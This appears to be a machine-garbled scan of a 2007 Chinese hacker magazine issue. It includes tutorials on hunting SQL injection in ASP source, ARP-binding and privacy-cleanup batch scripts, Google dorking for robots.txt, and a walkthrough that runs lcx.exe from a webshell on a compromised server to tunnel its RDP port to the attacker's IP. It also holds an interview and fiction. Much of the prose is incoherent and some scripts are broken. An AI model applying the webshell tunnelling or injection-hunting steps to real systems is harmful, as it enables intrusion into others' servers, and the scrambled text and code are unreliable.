之前本菜鸟用记事本控 ASP 时间，那时总在百万行的代码里来回走动，后来上了 Notepad++、EditPlus 后就感觉明显轻松多了，常常在需要在 WEB 漏洞的十几个、他们就说常用语法彩色的文本编辑工具中，似有 EditPlus、ImEditor、UE 文本编辑工具等。我选 Notepad++ 是因为很人性化，操作简单，而且是免费开源的。其中代码高亮这个功能是其它同类编辑工具比较好的，还有如记忆上次打开文件、强大的查找替换功能等。这里默认是 11 月 Sinenhp? 写作的“以小化知识库优化研究——探访漏洞之王”关于程序开发公司网站代码审查的探讨之深处：先用 http://www.wrtx.cn/down/fdc2.rar 下载源码，然后用 Notepad++ 打开漏洞页面 CompHonorBig.asp 文件，如图 10。


在某马仔看着主界面，在 ASP 代码在边右边讲了行数，仿佛是寻找它的位置信息，整蒙着什么程序。这里的 `<%%>` 显示为黄色，说明是 ASP 的代码块，淡蓝色的表明是 PHP 的代码，所以看的时候，我们直接看醒目的黄色代码块，至于蓝色的 HTML 代码要直接跳过即可，这里主要用 Notepad++ 对于阅读分析代码。

现在来帮你们侦快补下基本的 ASP 知识，不然看懂人漏洞啥都不懂嘛！对于某菜来讲，只要特别注意 Request 对象，它可以获取浏览器的信息，把浏览器输入的值传送给服务器，如果传来的是用户有没有经过非法字符呢？嘿嘿，我们可以构造一个查询字符串：SQLi 语句啦。Request 对象还有个名称叫 QueryString、Cookies、Form、ClientCertificate、ServerVariables，QueryString 就是常见的 GET 数据方式，我们从图 10 中看到：

```asp
<%=dim id %>
id=request.QueryString("id")
```

id 变量是啥也没处理就通过 QueryString 对象处理，常见的过滤方式有 Replace()，自定义函数过滤，我推荐使用上面。我们常常在一个比较低版本的程序里，函数目录查找中搜索 request.QueryString 字符串，如果发现有变量没有被 Replace()、IsNumner() 与自定义函数过滤，嘿嘿，说明一个漏洞就出来了。Notepad++ 有针对目录搜索，但是方便性不大好，我用 EditPlus。这里我们以局域地产开发公司程序测试，安装后用 EditPlus，打开进入主界面，在“搜索”菜单里选择“多文件查找”，即可弹出查找对话框，如图 11。


# 《非主流黑客手册 2007.12》【G 版聚盲】

“查找”，哈，结果出来了，如图 12。

很明显比 Sinenphg 找到更多了，除了最后一个是程序想心机了个等于号，所以不可用。在图 12 右下框中的搜索结果，如果相应资源源文件代码，直接双击即可，然而若到代码周边是否有过监控数、自定义过滤函数，是否包含了防注入文件，如果啥都没，哈哈，菜菜菜到 SQL 注入漏洞啊！

Sinenphg 在左面又发现了搜索型注入漏洞，当然，我们同样也可以找到，直接查找 =request 然后验证即可，如图 13。

OK，基本的就说完了，菜菜可以看到，挖漏洞其实很简单，好的工具能增加漏洞寻找效率；但工具毕竟只起辅助作用，最好多看《黑手》明白漏洞形成原理，然后见招拆招，更多的好东西就留着来某某大叔手中手吧。


【文字中涉及到的工具 Acunetix 网站漏洞扫描器、Php 源码分析器以及文本编辑工具：Notepad++、EditPlus 在光盘中有收录】

编辑点评：

这篇文章的标题，上一来就来个漂亮的 Web 漏洞扫描器对我感到是了我的眼球……功能强大，没错！不过对于我们小菜来说 E文水平而并没有必要读懂，看字就明白。别的好的工具要有效利用它，某种源代码的分析或处理方式可以帮助找出隐蔽的漏洞，要比只对文字中间的字句而言大多更有效些。应你所思所想，使用这几个工具如何，比如：查找、替换、字符串匹配等并不是什么普通的东西，但足以解决很多 Web 程序的漏洞，较这种不以语句为主的好处理，也许正合菜菜菜的口味。

# 菜鸟跟我学批处理之 ARP 防御帖

从本文中你可以学到：

1. arp 绑定 MAC 和 IP 的用法
2. for /f 和 set 命令的经典结合使用

ARP 欺骗是黑客常用的攻击手段之一，前段时间很多大型黑客站点被黑，都是利用 ARP 欺骗原理入侵的。他通过伪冒同一个网段的计算机，再利用 ARP 欺骗技术来获取目标计算机的有用信息，从而达到入侵的目的。在网吧利用 ARP 欺骗盗窃号也是很常见的，很多外挂和游戏玩家中也经常用它，至今他们的 ARP 欺骗来造成系统级别错误也较常见。ARP 欺骗严重时会导致网络瘫痪，破坏整个局域网的通信。

客户机上面这些代码保存为批处理文件放在启动目录里即可，等他们重启系统的时候会自动根据第一次取得 IP 和 MAC 地址，这样就能大大地防止 ARP 攻击了。这个方法对 ARP 欺骗很有效的，但是这个批处理程序已被扫过的 MAC 地址，即上所有的另一种防 ARP 攻击的批处理，我也找出是太繁琐了一下，代码如下：

```bat
@echo off
arp -d *
arp -s 192.168.1.1 00-50-7f-c1-01-00
arp -s 192.168.1.189 00-16-76-04-dc-2e
arp -s 192.168.1.199 00-07-0e-0a-73-0a
```

首先我们来了解一下 ARP 欺骗的种类。ARP 欺骗分为二种，一种是对路由器 ARP 表的欺骗，另一种是对网内 PC 的 ARP 欺骗。第一种 ARP 欺骗的原理——截获网关的数据包，它通知路由器一系列错误的内网 MAC 地址，并按顺序的包裹不断进行，使真实的地址信息无法通过或更新保存在那里，结果路由器只发错的 MAC 地址，造成正常 PC 无法收到数据包传送。第二种 ARP 欺骗的原理——伪造网关，它的原理是建立假网关，让它代替真的路由器，骗取本网路上的 PC 网得到的路由器信息，未来因一些交换机或 HUB 网络不认识而广，由 PC 到路由器再也上不了网，哼“掉线”了。

```bat
@echo off
Rem 获取本机IP
For /F "tokens=2 delims=: " %%i in ('IpConfig /All^|Find /i "Ip Address"') Do @Set localip=%%i
Rem 找本机的MAC
For /F "tokens=2 delims=: " %%i in ('IpConfig /All^|Find /i "Physical Address"') Do @Set localmac=%%i
Rem 获取路由器MAC
For /F "tokens=2 delims=: " %%i in ('IpConfig /All^|Find /i "Default Gateway"') Do @Set gateway=%%i
Rem 获取默认网关MAC
ping %gateip% -t 1 >nul
For /F "tokens=2 delims=: " %%i in ('arp -a %gateip% ^|Find " %gateip% "') Do @Set gateway=%i
Rem 获取本机IP和本机MAC
arp -s %localip% %localmac%
```

批处理中奖令“IpConfig /All|Find /i "Ip Address..."”的语句意思是从“ipconfig /all”命令（这个命令是打印当前的网络配置信息）的输出结果中筛选出有“Ip Address...”的语句，然后对这行中以冒号分隔的第 2 个数据传递给变量 %%i (For /F tokens=2 delims=: %%i)，do 后面就是要执行的命令了，这里是将变量 %%i 的值赋给指定环境变量，以后在 bat 中只要调用 %%i，变成了……

病毒真的很可怕，ARP 病毒也出现了 2007 最新版的，双绑功能来说好像不怎么凑效的，我曾经也尝试尝试得厉害了。当时这个病毒见攻击我们网吧的几台服务器，造成网络瘫痪、电脑服务器、游戏服务器都不能正常连接网络，它也伪造了网关 MAC 地址，导致它们不能正常上网。现用 arp -a 查看网络的 MAC 地址，发现竟然是精心设计的，ARP 表中——删除 ARP 缓存中的信息，但是一多变之后反应如同慢了，攻击的频率非常快，我当时都死了。最后在收发包把全部电脑直接瘫痪，连网络也恢复正常。后来我在一台机找到了 ARP 防火墙组件，发现通过用 ARP 病毒一器也可通过伪网络和外部…

```bat
ping
start arp.bat
goto ab
```

我们用 ping 来定义时间差，这里我们定义的是 30 秒（编辑：这里不是严格意义上的 30 秒，只是在执行中 ping 命令共发送一个请求以来到回复之间一系列的时间差，并不是一秒一秒的）。在 30 秒之后执行 arp.bat，跟着再次执行 arp.bat，这样就达到 30 秒绑定一次的效果了。这个批处理文件一定要和 arp.bat 放在同一个目录下，如果你的 arp.bat 文件放在服务器盘目的，则把这个时钟 start 命令修改，改成调用 call 命令。Call 命令用法：call carp.bat。

今天的 ARP 防御措施就说说，系统能严格到大家吧！如果没有什么好办法的话请告诉你一声，希望广大网友分享！【文中涉及到的和处理技术在光盘中有收录】

编辑点评：

简子新讨论 ARP 双绑和批处理的命令用法，我们正好在这里做综合应用一下。大家有的问：如何体会主页的最后的 arp 防御法，正好剩补了《小黑学日报》这期的系统方案等不好的。不在是 arp.bat 的命令后加 set 命令的方法，这就是我之前记好了。如果很多时间很乱在批处理里做一与业序升级的开关，用作 arp 相关系统保护，对于很多 Windows 中的关于这个命令的屏蔽，下面我们来讨论如何利用命令提示符的权限对其也是一种 WFP 或系统限制，进一步可以选出命令对系统防护来说的技巧，大家要特别注意 Windows 中的关于这个命令后面也需要增加参数，例如 arpd 命令，最后作为 arp 服务的方式，来让它写入规则中使用，方便我们在多张图片中看到，你只要按照上面的方式执行就行了，也放置到 arp 链条……

# 小黑学黑日记
## 计算机隐私防护

从本文中你可以学到：

1. 清除常见的本地私密信息
2. WinRAR 的命令行用法
3. reg 命令的删除注册项的用法

小黑今天看到新闻，说原来微软公司的李开复被微软告上法庭了，本来 IT 内的跳槽是件什么大惊小怪的，但是为什么微软准备把人家弄上法庭呢，小黑不禁紧接苦去老我思，也就引出了今天的这篇小黑学黑日记之计算机隐私防护。

### 一、QQ 信息泄露的防范

QQ 是国内非常流行的 IM 通讯软件，该软件在带给我们快乐的同时，也有一些安全问题，首先我们要看好自己的 QQ，不让密码信息泄露。盗 Q 不马一段另问题，一种是对 QQ 程序进行键盘记录，另一种是在 QQ 登录的时候向某位置发送 get_text 信息获取密码信息！

针对这两种木马，我们只需要对 QQ 的自动登录功能做出控制，可以起到防范作用，打开 autologin，如图 1 所示。


操作系统如果，其他用户登录系统也有登录 QQ 的可能性，所以我们还要进行一些权限设置，打开 QQ 的安装目录，找到自动登录 QQ 的文件夹，点右键，选择“属性”，在“安全”选项卡中点击“高级”，取消“从父项继承那些可以应用到子对象的权限项目”，包括那些在此明确定义的项目”，点击“复制”，然后只保留自己的用户名下面设置的权限即可，其他的用户名都删除。这样别人就无法自动登录我的 QQ 了！


其实是本地聊天信息的安全通过 QQ 聊天信息查看器，就可以轻易地查看到本地计算机的 QQ 聊天信息，如图 2 所示。
对于该种信息泄露，我们可打开 QQ 的“菜单”——“设置”——“个人设置”，依次单击“安全设置”——“本地信息安全”，把“启用聊天记录加密”前面的勾选上，在“口令”输入密码就可以了。

### 二、硬盘文件彻底删除

李开复被告上法庭后来又面对数据泄露的事情，对于系统一员方法删除的硬盘文件，我们通过 EasyRecovery、FinalDate 等软件就可以轻松地恢复，要防范该种信息的泄密，可以通过 UtraSentry Wizard 这款工具实现对硬盘数据的彻底删除，软件运行后如图 3 所示。我们只要选择硬盘上的文件，点右键选择“安全删除”就可以了，另外还可以选择“安全删除的级别”，这个工具其实就通过删除文件后，使用 EasyRecovery 绝对不便恢复！

### 三、剪贴板隐私信息的泄露防范

剪贴板里收藏了我们很多的信息，虽然盘后出现消失了，但是有时候因为一些疏忽就把信息泄露出去了，恶意查看员只要在“开始”→“运行”中输入 Clipbrd 就可以轻松地获取这些隐私信息了，如图 4 所示。

防范的方法其实很简单，对于敏感的信息不要使用剪贴板，如果要使用，我们在使用完后可以，任意剪切一段无关紧要的信息取代原来要传输的敏感信息即可。


### 四、文件发送到移动设备自动加密

为了移动存储设备中的信息安全，我们经常使用 WINRAR 的加密功能，但是如果对文件一个一个地进行加密实在是太复杂了，我们可以打开 C:\Documents and Settings\administrator 文件夹（系统安装在 C 盘），然后进入到 SendTo 文件夹，创建一个 x.bat 的批处理文件，在文件中输入如下代码：

```bat
@echo off
"C:\Program Files\WINRAR\WinRAR.exe" a -pchecker %1".mine.rar" %1
pause
```

上面的 WinRAR 的路径根据自己的实际情况进行修改，a 命令是添加一个压缩文件，-p 则是设置密码（编者：可以用 -hp 替代 -p，p 只要是加密一个文件包时加入密码设置，而压缩的内容，不用提供密码也可打开）。这样当你需要将文件发送到 U 盘的时候，选择“发送到”→“X.bat”就行了，如图 5 所示。

（编者：要注意的是，如果压缩后的文件名以及文件所在的路径中文空格的话还要处理一下，否则会执行失败，另外还这个包……）


### 五、历史记录导致的隐私泄露

历史记录是 WINDOWS 隐私泄露防范中的一个重要环节！

#### 1、thumbs.db 的隐私泄露

Thumbs.db 是一个图片的数据库文件，而且某种环境下文件夹中图片数量增加而增大。现在隐私不注意，恶意查看者或有些带着筛选器通过浏览者查看器的一些工具就可以轻易地查看到我们浏览过的隐私图片，如图 6 所示。

最好的方法是把图片存储到一个特定的文件夹，规避在图片浏览器中的操作对图片文件夹进行权限设置！


#### 2、浏览器的历史记录

对于 IE 浏览器的历史记录，我们可以在桌面的 IE 图标上点右键选择“属性”，在“常规”选项卡中点击“清除历史记录”按钮，并将“网页保存在历史记录的天数”设置为 0。

#### 3、清除运行记录

在“运行”里输入程序可以打开很多 WINDOWS 自带的程序，但是也同样容易被管理员提取出来了，那后果是可想而知的，所以我们要清除这些记录！打开记事本输入如下代码，保存为 delrun.bat：

```bat
@echo off
reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU /va /f
rem reg命令采用参数提示，-va 参数表示删除所有值，/f 参数表示强制删除。
```

破解完成后，直接运行这个批处理可以轻松地清除在“运行”中留下的痕迹！

#### 4、播放器历史记录的清除

我们以 WINDOWS MEDIA PLAYER 为例，选择“工具”→“选项”，在“隐私”选项卡中，去掉“在播放器中保存在文件和 URL 选项中”的勾选项，即可。

> 【文章来源】中提到的工具 autologin、QQ 帐号读取查看器、UltraSentry Wizard、痕迹查看器等都是为此处用途优化而有丰富存有历史中可找。

# 将偷窥进行到底

从本文中可以学到：

1. 什么是 robots.txt
2. 搜索引擎如何搜集网页
3. 利用 robots.txt 获取网站敏感信息

大家都知道，一个网站的一些文件会被搜索引擎收录，而我们正好可以用 Google、百度等搜索引擎搜索出来一些网站有关的信息。可见一个网站总会有一些内容暂不想让人知道，那么怎么办呢？对了，大家都会想到 robots.txt 吧。那么，什么是 robots.txt 呢？我们先来认识它：

### 1、什么是 robots.txt 文件上所有内容，请勿建立robots.txt文件或者创建一个内容为空的robots.txt文件。

## 2. robots.txt文件放在哪里

robots.txt文件应该放在网站根目录下。举例来说，当spider访问一个网站（比如 http://www.abc.com）时，首先会检查该网站中是否存在 http://www.abc.com/robots.txt 这个文件。如果机器来到这个文件，它就会根据这个文件中的内容，来确定它访问权限的范围。

以上的信息来自百度大叔，呵呵，大家都清楚 robots.txt 的作用了吧？那么今天我们讲的就是它！它里面放的是不是让我们看到的目录、文件，那么 robots.txt 它本身呢？它本身好像不让我们看到？换句话说，我们要是搜索 robots.txt，是不是一种可以达到偷窥的效果呢？呵呵，我们来试下，打开 Google，输入：inurl: robots.txt，看看有什么效果，如图1。


robots.txt 本身的作用是用来阻止别人访问包含它的文件进行访问限制的，没想到就因为这一点，反而被我们所利用了。如果在这个文件里面把它本身加进去，效果又会是怎么样呢？呵呵，给大家看看有意思的小的做法，又会给机器的链接带到一些重点。文章具有一定的偶然性，大家如果有了更大的发现，一定要改出来哦！


## 编辑点评

有些站长为了自己网站的一些被别人看到而又不被控制而使用 robots.txt 文件，这也的确可以从一定程度上防止网站内容从而暴露；但如果把 robots.txt 放入一些内容上，那么就不是无法主动许可，而是某种程度上的泄露了。呵呵，所以很多的 Web 涉及这些细节时不太认可其重要性，这种现象实在是你不必认真研究。可见，robots.txt 文件设置的初衷是为了访问权限以及避免网站被搜索引擎爬取；那么 Google 的这个 robot.txt 可以做陷害查询，这算是其功能的一个反向吗？

# 端口映射的新方法

图中的内容：从本文中你可以学到：
1. 如何利用 lcx.exe 进行端口映射
2. 如何在内网中实现木马服务器的反向连接

## 一、前言

相信没有很多小弟在网吧上网无法端口映射成功吧。因为有很多方法都由于环境因素无法成功。比如路由器环境、Web 登录管理密码难破，路由 IP 服务没有开启，没有外网稳定宽带，这都是问题。

## 二、原理

首先，使用个人侦查搞到 Webshell 然后就是提权，一旦得到了 system 权限当然就一定要登录肉鸡的桌面看一看啦。有许多次我遇到了无法连接 3389 的情况，原因有很多，比如网络有防火墙，做了 IP 安全策略，或者其它原因。当然这个问题可以解决的，答案是用端口映射：把内网的 3389 输出到公网，方便我们能连在 Webshell 的 cmd 里面运行 lcx --slave 自己的 IP 55 127.0.0.1 3389，这样一般就可以突破防火墙了，但是一旦决定要穿透，Webshell 也不行，我们在手上就可以把我们端口映射器的映射接口作为反向主机的接入端口。

## 三、开始动手

首先实施端口映射的条件有2个：

- 要有一个 Webshell（是有公网 IP 的，最好不要是虚拟主机上的 Webshell，因为设置的很多隐藏条件都无法执行，而且很多服务器只提供 wscript.shell 对象，所以无法执行 exe 文件，而且服务器端很多参数，所以我……）
- Webshell 的 wscript.shell 没被禁用。

我们下载的并非一般的 cmd.exe 和 lcx.exe 到可写的目录，然后在 Webshell 的 cmd 里面运行 cmd.exe，在参数里填写，例如：E:\www\xxx.com\bbs\lcx.exe --listen 55 8000，其中一个端口 8000 和另一个端口 55 相互映射，如图1。


补充一点，Webshell 最好不要太大，很容易把 Webshell 的限制搞坏。

然后把另外的 webshell 通过一句话来代替，命令执行完后当然要看着是否打开了一个端口，我们就用 superscan3.0 打一下 Webshell 的 55 端口进行扫描，如果端口打开了，就说明已经成功一半，接着在本地主机中运行 lcx --slave 内部 IP 55 127.0.0.1 8000，执行后如图3所示。


# 采访：NoHack 酷作 登龙狂攻大九城

各位看官，现在来到下午12点，这是 NoHack FM29 广播电台。本期采访小诸侠带大家走进 NoHack 管理团队，了解 NoHack 管理人员“不为人知”的秘密！本次采访是现场直播，内线大屏透红……

NoHack：“各位观众，大家乐，我现在有请各位 NoHack 管理人员出场”

[ps：这段对话绝非捣乱，凡见子被动之，稳把序章，终端之人，人人为本，十多位管理成员数管身临其境。]

NoHack：“各位 NoHack 的管理人员，先各位低听好办事场吧！”

Cass：“NoHack 的老朋友，大家好，忽然来‘黑手’的朋友应该都不会吓一跳吧。”

[ps：别误会，最初这篇文章中的内容，本来就是有点恶搞，故意异常的语气。]

小风：“各位 NoHack 黑友，偶是小风，工具交流区版主（小心脑，注意被找上马来！）”

10086：“大家好，我是 10086，主要负责看论坛板块。我不是移动客服，大家别误会哦。”

冰的原点：“大家好，我是冰的原点，黑客版版主！”

整理：本次 NoHack 采访内容，围绕管理人员、论坛版主以及日常工作展开。

编辑点评：lcx.exe 这个东西很难让你马上体会它的意义，但它是这次采访的重点。


图4 服务器端上线

图5 lcx.exe 显示网络传输

## 四、补充

如果 Webshell 是 asp 的话，权限一般是 users，可以执行一些命令，如果 asp 也无法执行 wscript.shell 对象就禁用了，可以试试用 aspx 执行看看，因为 aspx 权限往往比 asp 高，一般也是 NT SERVICE 权限。

说明我们确实想出的办法，这样我们就可以在内网等等子上线了。

> “隐藏的好像要多一些，或者说是需要对内网环境进行熟悉。”

绝杀：“接触 NoHack 是在手册筹备之中的时候，可能很多朋友不知道是先有的论坛，后发扬的杂志。做版主记不清楚是多久什么事情，但是将自己的路由员的域名问题可以略为解决，因为关系我们大家的日常任务，大家很快就完成了。应该是因为有了公司的缘故。”

概花浪子：“真正接触 HACK 时候还是 05 年 10 月份，2005 年 10 月再搞程序，我就 NoHack，才知道事情有一些不一样。后来我学习了 HTML、ASP 语言。2006 年 7 月，终于有了第一个外网贝文，得到了 NoHack，随后也一直沿着那方式玩。”

众管理顺时针看了一眼，似乎会明白不少问题，于是继续回头说道：“继续下一话题……”

# 【新洞练练习】← 2007.12 正经家·深三手间

……忽然 Cass 眼中闪出一抹亮光说道：“这个问题就由我来总结下吧，就是上下一心，共同努力！Yeah！谢谢！”
就在这时，忽然有人告诉你：“我在 NoHack 遇到最大的困难是它没有女朋友。克服这个问题是我们一群人毕生的梦想！在一次诙谐谈笑间，很好笑，和某 M、MM 相互有好感，两人都不敢说，于是我们劝那小子直接把她作为朋友，和她共同作伴！在那后，NoHack 就似乎大大地困难了……”
小风：l006。冰的原点，穷花泥子都沉默不语，只会空气腾腾的地方才出道……

NoHack：“在 NoHack 工作期间，让大家最感兴趣的事情是什么？”
Cass：“我觉得和优秀的事情就是 NoHack 与做有活跃的团结与这么多人来听力没好一致过交流！
（Cass 说完后与上周时间间，与小明一起，问他什么能担任成功……
）因为这个社区就是一个努力的大家庭……）
就在这时，10086 便用了一线仿着小口头的发言称学上去台，扯过话筒说道：“我再次重申下，NoHack 是不够老猿？NoHack 最快乐的事就是有时在教程和文库收录，并认真带来科学的成长！我从中国学习了不少东西！NoHack 这个大家族后，发现了团队、精神和……其实不光会是很强的！”
小风：“我最喜欢的事情就是听别人打 sn，反复‘后天’、‘玩’等声音，才会发后面运载，尽情交流。正如上次那些旧东西，我发现曾经都是有关注不围，NoHack 这些日子后的发展方向，把大家都当面提到了生活嘛！”
独紫：“我在 NoHack 以服务形式说话吧！……不还谈到了……”
NoHack：你会在 NoHack 以后的发展方向找时想一想什么计划？或者说已经在你的骨髓里实施在我脑里的框框？
Cass：……


前言：人生如果太过于悲惨，就充满了戏剧性；但人生如果大气磅礴，那就成了仙剑奇侠传……

# 文讯

文又久很爽，而且很白，给人一种高纯的感觉。他的眼神很爽，旁人的时候有种穿透力。说起话来也有爆有意，旁人很容易就花容失色，容易透露话题。
这是一把上位者才具有的气质，在不了解他的职业之前，我一直认为他是聪儿的合作伙伴，起码是一志向上的合作伙伴，而事实上是和想象的不一样。
“这位仁兄，这很像勇猛，以前也玩安全。”聪儿的笑容带着一种成熟的威慑，“以后大家交流的地方很多，要常常联系。”
文又对待男人和女人的态度完全不同，这是我了解他之后才发现的。如果说面对男人的时候他眉眼精神，那面对女人的时候，他就真的变成太极气了，所谓的“大叔”，指的是对美女眼睛就直的那种“大叔”。

# 畅言

颜儿和钟律第一次会晤是在那间酒吧，所以我们第一次会面也在这里。我将颜儿大概还是对钟律念念不忘，所以每次都无数盛脸的过来捧场。
钟侦还是踌躇，虽然我到了的的干子，不应该喝酒依然很依仗，但本领依然很喜超。这与她那时的别完全不相称，但也许就是这种不相称，反而更让人印象深刻。
文叔喝酒很有标准，每次总是加一口气干三四杯才开始诉人。女友到底唱欢乐，一小碗清稀条的人间说说话也很利索，而且文叔说话从来都是一句就切入主题。
文叔说一个笑话，我说行。此前那个女生听着的时候很少知道吧，我就说知道了，大家都是最重要的。文叔说，男生都特别感性，叫少了爱不多大，也是我们创业一样的偶像。
文叔说，当时年纪是很多的，穷到什么地步呢？哦，穷到开会讨论生意一个回的时候，大伙儿几乎从头话把耳朵都给憋成了……那公会团了多少秒么？
我心说我又不卖车啊，怎么知道他俩了多少秒？不还是礼貌地问了一句。文叔神色不紧不慢，一百元。他们劝的只有一百刀了。
说到这，我们都笑了。文叔说，马云的经历也差不多，不过报纸上以前说的更夸张点，说他是拿出仅有的五十万搞了阿里巴巴。你知道五十万有多大一堆么？十五块钱比这高的高度是十米，五十万就是十五座大山。马云在几年都能够顺顺地攀爬五十万，可能他还得分爬大楼，而且腿比沙皇上爬，个稍大。别人可能真有那么厉害，一般十个人中，都是走他不依着都去的人。
所以以前听闻口才老师说过的经验也全都发展带着我俩的，难免失的是体味，是没办法使人转。就说这时语重了一句，没办法，那个时期是口传网络出现的一个月。
所以大家在此中妙趣迭起，看看着纸作幅，还是那里的炒名，只要是纸本基本，他自然也很凶悍的。我对这种脾气就是不在眼里，假名叫世界几乎是不能练身着里会很少被。

双个上他来吐气蒙，我什么话都没敢说，一股“片个气”，还是那些报纸都不摘到。
所以这时我也将双作谈的故事，他们都没等中会下的，这就说等，过会纸上我们看到，今天谁能赶到钟精的手，我就称它他一个月的背。

䩇道
文叔没说什么，又叫来一杯快快好抽，可一时间无视。些了一口气，给后问小姐上杀呱红茶。聊识卡乎，有点上说。文叔说的轻笑了笑，然后抬开轮子抻眼震的向下接着给的门价，就此走去，茄紫个到前面，招来他的孩子，坐在门口看了痴。时觉今天虽然来讲话，似乎在话盖，先说只能说出个一二。
靳倚的脊梁已经撑了快几个月，文叔有心问他，也说不清楚地难过了一句。
文叔站起来斜斜的抽了一口烟，眉头的黑光照出了深深的一片，眼神还稳稳的暗，借坐下来那刻，他的手指轻轻在桌上掠过，像是在等什么。
“我告诉你的”，他顿了顿，“我自己都不知道这件事会不会成功。”
“女儿病了？”
“不是。”他摇了摇头，“是你们都以为的那些事，我其实都明白，可我不能停。我还欠着一笔账，得等着过年。”
文叔合上杯盖，把烟夹到指尖上，瞥了我一眼，像是想起了什么，忽然笑了一下。
“那你这次回来，是来帮忙的？”我问。
“差不多吧。”
“你可真是越来越像个外面的人了。”
“别瞎说。”
他把烟摁灭在烟灰缸里，抬头看了看窗外，声音压得很低，“有些事，等到时候你就知道了。”

䩇话
文叔的目光忽然柔了下来，像是对着我，又像是对着这间屋子里某个看不见的人。他说，自己从来没有想过要把事情说得那么清楚，因为说出来反倒会让人没法继续往前走。那时候很多事情都像一层薄纸，轻轻一戳就破了，而真正的痛，往往不是来自结果，而是来自等待。
他站起身来，拍了拍肩膀，说：“如果以后再碰到你们那个时候，我会告诉你们的。”
我点了点头，却还是有些不放心。
“你这次到底想做什么？”
他望着门外，停了好一会儿，才说：“去见一个人。”

广泛。还有一点，它是橡胶的，如果你刚才打动我了，我也可以去帮你实现想法。”
“但是，真的没这个希望。我想……”你要是做设计就会比较好一点，顿慢慢地说道。
“方总，我这次没有带作品过来。我们下次什么时候见？”他思索了一下，决定再一步。
“你不用问了，我脱线没有机会再见面的。”郝儿很轻松地回了一句，点头示意，退了出去。
他刚才跟咨询设计师，你听不答应他，咱们可以把它工整一点的。
“他已经没有胆子了，设计师没有尊严感和死了一样，他在我这不可能被离场的承认，我再说这个话可就要摇摇的周大。”
“那你刚才怎么不直接拒绝他？”
我带一些言上，学生们直愣愣地盯着报告台，但话术这样东西，永远是为设计成熟力士准备的，设计师么……要把的话太生的是。

䩇人
每周都要和小呛、文叔一起喝酒，这成了我的习惯。我出门从来不带客套，他们也总是，而且都是我们曾任体会来会说，想要单独让我看一遍，确实不难看。而文叔在家里，也不算发散，但有些时候大人有点客气，晚让书本来，我就要早一点儿做准备的。
文叔今天摇摆被回家来，也知道我这几个月来对作息发生的魂儿，坐的本兴有点浓淡，只要他推开窗来，风地常打进来，我就会问得一些不安。
每次我开始接单后，文叔都在旁边盯着我整理稿件。他不是没事找事，而是在看我有没有把每一步都做对。我总觉得这人比我还像个编辑，连删字都删得比我更狠。
有一次我把稿子放在桌上，准备出门，他忽然喊住我，问：“你最近是不是太累了？”
我愣了一下，说还好。
他没继续追问，只是把杯子往前推了推，叫我先喝口热水。
那一刻我忽然明白，很多人嘴上不说，可都在默默地看着你。
后来我也学会了这一点：别人的好意，有时是提醒，有时是沉默的陪伴。

办公室里除了有点安静，我能够看到他们动作全都舒服得不留什么破绽，一般一位大忌，要来，有时候不敢，都是许多的人。
以前我也没想过，设计师竟会在短时间里把一种温和的气场撑起来。那种气场不是强势，而是让人不知不觉就相信他能把事情做成。
“我先把你的方案看一遍。”他一边翻着页边说，语气很轻。
“如果要改，先改逻辑，再改画面。”
“别着急，好的作品都不是一口气做出来的。”
我点头，把笔记本摊开，认真记下。
他看了我一会儿，又补了一句：“别把自己逼太紧。”
那天我从办公室出来的时候，天已经快黑了。走廊尽头的灯一盏一盏亮起来，像是给每个还在加班的人留了一点点体面。
我站在门口，忽然觉得自己离“会做设计”这件事，好像真的近了一点。

# 道雪驿

顾儿公司那个卖轮胎的网站被人黑了，三天两头地崩溃。赘儿和文叔都很过意不去，萨耳承担了此网站漫游的任务，但这次却不清不楚，存在神奇性的问题，所以只有一通一通地发系统重复，由此看起来，他压根是在跑路。现在一下面临的，是那个攻击的 IP 来自北欧。

我把心放宽快些去想过这件事，这些到目前的人，也就说。
所以我们打不了个电话过去去委屈，顾儿说网络已经足够近了，解决肯定是一个平时，才会的哪看上的结果，所以只是想着也那夜。

文叔转过头，冲我笑了一个，不过表情很是难堪。他说我像一个诗人，只对情有着一个死者睡不醒，甚至想着也睡不着。漂亮老婆问他为什么一直都那么温暖，从来没见你笑过。他说……

他说一定期能都做出榜，为了防止抽筋，他才不变的。
我明白了点彷徨意，感叹死者，不过很简单么太多次。短视我就才能看到真实。
该问今天看起来，刚一一直现在很注意的挂件，所以下面的问题，我已经问过他了。

你还记得那个面试“市场开拓”职位的小兄弟么？
那个家伙呆，唉，还真可怜，你可真是个脑袋。把人说的那样给吧。

我很好想的触皮那么嗯。他就在我们市的上城区。
是他登的？
开始我只是你好憨，但是没证明啊，你知道没证据的事情做这些是不可以乱说的。
……那你到底怎么整的。
我把那小子拉出来接一顿。社会主义大团结，也要讲究以不不和谐因素，哈哈哈，开开心心地笑着。
切，你这说话跳犯也很了不起，未央大不了遮了吧。
你这么一说，好像是有点不厚道了。受我现呢的网店真的没问题了。听了这说，说明我没搜错人。这样，的时候于是；
那我问你，对做的标准是什么？对企业来说是制度，对国家

来谈是律法，对个人来说，仅仅只是心情变小了。现在我心情很好啊，假设风声，而且问题也解决了，所以我觉得这说是对的。
你知道么，当时我让朋友帮我看了一句，说有的；“宽容 B，装 B 这篇驿”，顿儿一字一句地说通。
他说这个，时我才理解，才慢慢觉悟，惊讶的。你以为我为什么都是随随便便不是静么，别以为有钱人就是蹩脚便懒？你就心去看天蛮的。我是分析了时间地点，以及 Oday 的发作情况，才断定是那儿手子干的。你知道大部分黑客都是桥纹的，可是有人却把这份所谓烦的八料用，员人白他自动在座，是一切的主义。和知道知道那是什么，西他是公司中的这些人去，那也是建立在后面的，少辛苦的功夫去换来同住的事，文叔因在白到。可应付而切的失败故事才如还可以；不是一种埋定的为怎么样。

# 转载即将产生影响

昨天落某日亲子个烟花节，文叔和钟怡拍了很多照片拿来给我们看。不过文章拍摄速度比较高，效果一点点都不好。文叔和钟怡生依依地像两孩子，可是每次看起来，现场在八角桌片一张桌上，钟怡也显得如此失去，也没有了我们两个的文叔的风格。刚在对方看到大计大家还面对面拍出来了4/5的垃圾照片，文叔说“她比较在意表明。我们这些个单也可通过其它途径去建设，以前就登陆的文叔消失了。我们又都是黑客么！从或儿那得咱倒满能够骂，时候会有一些

